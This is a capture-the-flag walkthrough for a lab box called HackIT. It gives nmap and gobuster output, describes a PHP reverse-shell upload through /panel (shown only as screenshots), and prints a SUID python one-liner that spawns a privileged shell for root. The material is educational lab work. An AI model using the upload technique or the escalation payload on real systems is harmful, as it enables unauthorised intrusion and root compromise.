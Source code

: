 
# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> ![5.png][./imgs/5.png]


-> `/panel`

![1.png][./imgs/1.png]

-> `/uploads`

![2.png][./imgs/2.png]

-> got revere shell

![3.png][./imgs/3.png]

-> user.txt

![4.png][./imgs/4.png]

-> upgrading shell

![7.png][./imgs/7.png]

-> escalating privilege

![9.png][./imgs/9.png]

-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.

![10.png][./imgs/10.png]

![11.png][./imgs/11.png]

-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![12.png][./imgs/12.png]

-> root flag

![8.png][./imgs/8.png]




